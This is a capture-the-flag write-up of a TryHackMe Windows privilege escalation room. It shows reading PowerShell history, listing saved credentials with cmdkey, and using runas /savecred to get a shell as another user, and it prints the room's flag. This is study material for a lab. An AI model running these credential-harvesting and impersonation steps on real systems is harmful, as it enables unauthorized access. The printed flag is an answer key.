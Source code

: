# About This Module
Module link: https://tryhackme.com/room/windowsprivesc20

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# PowerShell History
1. Started this task's machine
2. `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` from the compromised Windows machine
```PowerShell
C:\Users\thm-unpriv>%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20History%20pt1.png)

# Saved Windows Credentials
1. Started this room's machine
2. `cmdkey /list`
```PowerShell
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz
```
3. `runas /savecred /user:WPRIVESC1\mike.katz cmd.exe`
```PowerShell
C:\Users\thm-unpriv>runas /savecred /user:WPRIVESC1\mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
```
```PowerShell
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

4. `dir <FLAG TEXT FILE PATH>`
```PowerShell
C:\Windows\system32>type C:\Users\mike.katz\Desktop\flag.txt
THM{WHAT_IS_MY_PASSWORD}
```

5. `PowerShell`
```PowerShell
C:\Windows\system32>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `(Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\InetStp').MajorVersion`
```PowerShell
PS C:\Windows\system32> (Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\InetStp').MajorVersion
10
```

# IIS Configuration

# Retrieve Credentials from Software: PuTTY
